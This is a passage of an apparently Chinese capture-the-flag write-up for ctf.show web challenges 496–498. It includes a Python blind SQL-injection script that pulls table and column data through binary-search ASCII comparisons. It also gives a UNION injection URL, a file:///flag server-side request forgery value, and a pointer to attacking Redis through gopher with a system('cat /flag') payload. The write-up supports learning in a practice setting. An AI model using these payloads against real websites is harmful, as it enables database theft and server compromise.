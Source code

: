 ```
        # post数据username=1' union select "1",group_concat(flagisherebutyouneverknow118) from flagyoudontknow76%23%23&password=1'即可
        payload = "select group_concat(column_name) from information_schema.columns where table_name='flagyoudontknow76'"
        data = {
            "nickname": f"{user}",
            "user[username]": f"21232f297a57a5a743894a0e4a801fc3' and (select ascii(substr(({payload}),{i},1)))>{mid}#"
        }
        headers = {
            "cookie": "__cfduid=d995c7d9f402d7ee1e5573ecba5351ba71615771126; PHPSESSID=3ld0fehhsdfue824lco65i0k97"
        }
        r = requests.post(url, data=data, headers=headers)
        if "成功" in r.json()['msg']:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)


```

# web497

第一步：

```
http://68fa2d97-f636-4bc8-896d-7b3924312c21.challenge.ctf.show:8080/index.php?action=check

username=1' union select group_concat(username),group_concat(nickname),group_concat(avatar) from user%23
```

第二步：修改头像

```
file:///flag
```

# web498

gopher协议打redis最后执行，百度搜索gopherus的使用

1=system("cat /flag_bei_ni_fa_xian_le");


